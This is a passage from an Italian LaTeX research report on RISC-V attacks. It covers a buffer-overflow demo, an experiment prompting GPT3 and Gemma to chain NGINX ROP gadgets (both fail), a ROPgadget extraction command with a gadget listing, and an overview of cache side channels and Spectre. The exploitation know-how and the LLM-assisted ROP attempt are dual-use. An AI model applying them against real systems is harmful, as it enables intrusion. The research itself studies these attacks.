    
\includegraphics[width=0.65\linewidth]{images/ra-milkv.png}
    \caption{Info dei registri durante l'esecuzione}
    \label{ref:ra_milkv}
\end{figure}
\vspace{1cm}
\FloatBarrier
Oltre a quanto detto, analizzando la situazione dei registri impostando un breakpoint a fine della funzione \textit{red()}, prima del return, possiamo vedere come in \textit{ra} sia caricato l'indirizzo della funzione \textit{red()} e nel registro \textit{a6}, come detto nella sezione precedente, è presente il valore \textit{0x41414141...}, ovvero ``\textit{AAAA...}" cioè il valore usato dall'attaccante per saturare il buffer.\\
Una demo del seguente attacco è presente a \href{https://github.com/BlessedRebuS/RISCV-Attacks/raw/main/img/blink-bof-demo.mov}{questo link}
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.65\linewidth]{images/blink.jpg}
    \caption{Blink del LED verde nella normale esecuzione del programma}
\end{figure}
\vspace{1cm}
\FloatBarrier
\section*{Attacchi a webserver}
\addcontentsline{toc}{section}{Attacchi a webserver}
\subsection*{Generazione di ROP-chain tramite LLM}
\addcontentsline{toc}{subsection}{Generazione di ROP-chain tramite LLM}
Uno degli scenari studiati è ispirato a \href{https://syssec.informatik.uni-due.de/fileadmin/fileupload/I-SYSSEC/research/RiscyROP.pdf}{questo paper} in cui viene sfruttata una versione di NGINX vulnerabile ad attacchi di memory corruption per costruire una ROP-chain nel webserver in esecuzione.\\
Per riprodurre questo attacco si è pensato di dare ad un LLM, in questo caso Gemma e GPT3 i gadget trovati nel binario di NGINX per vedere se fosse in grado di concatenarli ed ottenere una ROP-Chain funzionante.\\
\newline
I primi test con Gemma utilizzando 2 miliardi di parametri non hanno dato risultati significativi. Gemma non riusciva infatti, a causa del numero molto grande di token, a generare una risposta sensata in base all'input.\\
GPT3, diversamente, riesce a produrre delle ROP-chain. Ecco l'input che è stato dato.\\
``I am giving you a list of gadgets useful for the Return Oriented Programming exploitation. You have to chain these gadgets and produce function call. 
Your output must be only the letters that identifies the gadgets ordered from the first gadget you would use, to the last gadget. 
You can use one or more gadgets to achieve the task and you can reuse the gadgets."\\
Dopo aver fornito il contesto, sono stati forniti i seguenti gadget.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htb]
\minipage{0.4\textwidth}
  
\includegraphics[width=\linewidth]{images/gadget-1.png}
  \caption{Gadget A-E}
\endminipage\hfill
\minipage{0.4\textwidth}
  
\includegraphics[width=\linewidth]{images/gadget-2.png}
  \caption{Gadget I-O-U}
\endminipage
\end{figure}
\vspace{1cm}
\FloatBarrier
Le risposte fornite da GPT3 sono state le seguenti:
\begin{itemize}
    \item IOUEA
    \item IOAE
    \item IEAUO
    \item IEUOA
    \item IEAUOJ
\end{itemize}
Mentre la risposta attesa era \textit{OUAIEU}.\\
\newline
Il risultato atteso è quindi una sequenza di 6 gadget utilizzati per eseguire una chiamata  di funzione con 7 argomenti. Il LLM avrebbe quindi dovuto capire che tipo di chiamata di funzione fare, quanti gadget sarebbero stati necessari per farla e in che ordine sarebbe stato corretto concatenarli.\\
Il risultato restituito sia da GPT3 che da Gemma non è stato quindi soddisfacente, suggerendo l'impossibilità di generazione di chain, almeno su RISC-V, usando questi tool.
\\
\newline
Il limite del LLM è dato probabilmente dal fatto che non è stato passato l'intero stack del programma come input, ma solo i gadget. In questo modo si sarebbe trovato nel contesto non solo i pezzi di assembly necessari a fare il salto, ma tutte le istruzioni compilate all'interno del programma che avrebbero potuto magari fornire dei salti e delle chain migliori. Tuttavia questo approccio non è stato possibile a causa del vasto binario che sarebbe stato fornito in input (qualche megabyte) e che avrebbe superato il numero di token massimo utilizzabile da GPT3 e Gemma.
\subsection*{Compilazione ed estrazione di gadget dal binario NGINX}
\addcontentsline{toc}{subsection}{Compilazione ed estrazione di gadget dal binario NGINX}
In una delle ultime parti del progetto si è cercato di riprodurre l'attacco al binario NGINX senza passare dal LLM, seguendo quanto riportato \href{https://syssec.informatik.uni-due.de/fileadmin/fileupload/I-SYSSEC/research/RiscyROP.pdf}{nel paper di RiscyROP}. Per fare questo si è compilato il binario su RISC-V con la versione specifica, ormai deprecata a causa della \textit{CVE 2013-2028} che è la\textit{ v1.4.0}, \cite{NGINXcve}.\\
Una volta compilato, la versione di NGINX sui processori RISC-V nel cluster del Monte Cimone, apparirà come segue
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/nginx.png}
    \caption{NGINX su RISC-V}
\end{figure}
\vspace{1cm}
\FloatBarrier
Utilizzado ROPgadget con una profondità di 20, è stato possibile estrarre 10MB di gadget, essendo il binario molto complesso, disponibili \href{https://github.com/BlessedRebuS/RISCV-Attacks/blob/main/nginx-1.4.0/gadgets.txt}{a questa pagina}.
\begin{minted}[escapeinside=||,mathescape=true]{bash}
ROPgadget --rawMode=64 --rawArc=riscv --rawEndian=little --depth=20 --binary=nginx
\end{minted}
Si è poi cercato nei gadget estratti il primo gadget per iniziare la chain, ovvero il seguente gadget
\begin{minted}[escapeinside=||,mathescape=true]{bash}
; gadget 1
0xb3058: c.ldsp s4,0x28(sp) ; load s4 (for condition
0xb305a: c.ldsp ra,0x8(sp) ; in gadget 4)
0xb305c: c.addi sp,0x10
0xb305e: c.jr ra
\end{minted}
Non è stato possibile trovare il gadget specificato, questo probabilmente a causa di una differente versione della \textit{libc()} disponibile nel cluster e della differente versione del sistema operativo.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/grep.png}
    \caption{Grep sui gadget}
\end{figure}
\vspace{1cm}
\FloatBarrier
\section*{Side channel attacks}
\addcontentsline{toc}{section}{Side channel attacks}
In sicurezza informatica esistono dei tipi di attacchi che non sfruttano esplicitamente una tecnica conosciuta e diretta, come può essere il buffer overflow, per accedere ad informazioni o parti di memoria volutamente riservate, ma sfruttano movimenti laterali e raccolgono informazioni di contorno che permettono azioni generalmente malevole.\\
In questa sezione si analizzeranno gli attacchi side channel efficaci su architetture RISC-V.
\newline
\subsection*{Cache Flush and Reload}
\addcontentsline{toc}{subsection}{Cache Flush and Reload}
Nel processori RISC-V si utilizza, come su altre architetture, una serie di cache intermedie che possono essere utilizzate per fare il fetch dei dati più velocemente. Quando si fa una cosiddetta ``cache miss", ovvero quando il dato non è presenta in cache, il dato viene recuperato in modo più lento perché il dato è recuperato dalla DRAM. Dopo la mancata lettura della cache viene quindi caricato il dato in cache che sarà accessibile più velocemente nelle prossima letture.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/shared-memory.png}
    \caption{Attacco cache flush and reload}
\end{figure}
\vspace{1cm}
\FloatBarrier
L'attaccante quindi si pone nella condizione di fare un flush della cache, sovrascrivendo la memoria con molti dati arbitrari, il programma vittima ricarica i dati utili in cache e l'attaccante fa una read arbitraria e in base al tempo di accesso al dato che richiede, capisce se il dato era stato caricato in cache o meno.\\
Questo tipo di attacco è stato mitigato nei processori moderni.
\subsection*{Cache Flush and Fault}
\addcontentsline{toc}{subsection}{Cache Flush and Fault}
Una variante dell'attacco enunciato in precedenza è il ``Flush and Fault". In questa variazione l'attaccante fa sempre il flush della cache, poi salta all'indirizzo contenente la linea di cache e gestisce l'errore. Anche in questo caso, in base al tempo in cui il processore processa una fault, l'attaccante può dedurre se il dato è stato in cache oppure no.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.4\linewidth]{images/fault-reload.png}
    \caption{Attacco cache fault and reload}
\end{figure}
\vspace{1cm}
\FloatBarrier
Anche se questi attacchi sembrano innocui, sfruttando queste informazioni basate sul timing, un attaccante può dedurre quali sono le stringhe in memoria.\\
\newline
Questa tipologia di attacchi funziona generalmente a causa di ottimizzazioni che servono per migliorare le performance del fetch dei dati, grazie ad elementi come il \textit{Branch-Prediction Unit} che si occupa di ottimizzare i branch futuri, ovvero i pezzi di codice in cui il programma salta quando c'è un  ``if - else".\\
Si possono utilizzare anche dei ``performance counter" che sono variabili pensate per fornire benchmarking del processore, ma che forniscono il numero di salti effettuati, di cache miss e cache hit, frequenza di istruzioni e molto altro. Questi counter sono a volte disponibili in userspace e quindi leggibili da un attaccante e possono essere sfruttati per costruire attacchi più complessi. I performance counter che forniscono più informazioni sono però di solito ad accesso privilegiato.
\newline
Con attacchi del genere infatti l'attaccante può utilizzare metodologie a forza bruta per capire se una determinata stringa (esempio una password) è stata caricata in cache o meno ad un determinato momento dell'esecuzione del codice. Ovviamente non è la metodologia di attacco più efficace ma usando calcolatori molto potenti oppure tempi di attacco molto lunghi, si può usare un attacco side channel per sottrarre informazioni preziose ad un sistema.\\
\subsection*{Ottimizzazioni del processore: Speculative Execution}
\addcontentsline{toc}{subsection}{Ottimizzazioni del processore: Speculative Execution}
Il processore, invece di predirre i branch, può anche eseguirli direttamente. Questa caratteristica chiamata ``speculative execution" è il concetto alla base che rende le CPU moderne molto veloci, anche in codici con molti branch.\\
Due attacchi molto utilizzati che sfruttano questo tipo di prefetch delle istruzioni sono Spectre e Meltdown \cite{spectremeltdown}. Senza scendere troppo nello specifico, questi due attacchi permettono di bucare moderne CPU indipendentemente dell'architettura, basandosi sul concetto di speculative execution. Questi attacchi sono stati sfruttati per rubare dati processati a ring 0 (kernel) e che sono solitamente privati e non leggibili da programmi esterni che girano in userspace. Sono stati usati ad esempio per leggere aree di memoria contenenti password memorizzate nel browser o password manager, o stringhe definite private dal linguaggio di programmazione.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.4\linewidth]{images/spectre-meltdown.png}
    \caption{Spectre and Meltdown logo}
\end{figure}
\vspace{1cm}
\FloatBarrier
Anche su processori basati su ISA RISC-V che implementano la speculative execution questi due attacchi possono essere sfruttati per leggere dati privati, a meno di mitigazioni lato software oppure hardware. In alcune CPU è infatti presente quello che si chiama ``limited speculation" che permette una limitata speculazione per determinati tipi di istruzioni ed evita di fare eseguire il prefetching arbitrario.\\
A livello architetturale, la possibilità di fare prefetching è legata alla possibilità di fare ``indirect branching" ovvero poter fare salti direttamente a registri oltre che solo ad indirizzi \cite{indirectbranches}.
\subsection*{Spectre su processore SiFive u74-mc}
\addcontentsline{toc}{subsection}{Spectre su processore SiFive u74-mc}
Prendendo come esempio il processore presente sul cluster del Monte Cimone, di tipologia \textit{SiFive}, è stato dichiarato dai vendor che questa tipologia di processori non è affetta da vulnerabilità Spectre e Meltdown perché non implementa la speculative execution, come descritto in \href{https://www.sifive.com/blog/sifive-statement-on-meltdown-and-spectre}{questo articolo}.\\
La speculative execution rimane però presente su schede MILK-V che montano processori come il \textit{C910} o il \textit{C920} \cite{c910c920}.\\
\newline
Si è potuto testare quindi il funzionamento sul processore SiFive usando una Proof of Concept dell'attacco Spectre \cite{securityrisc} per cercare di leggere una stringa in memoria protetta.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
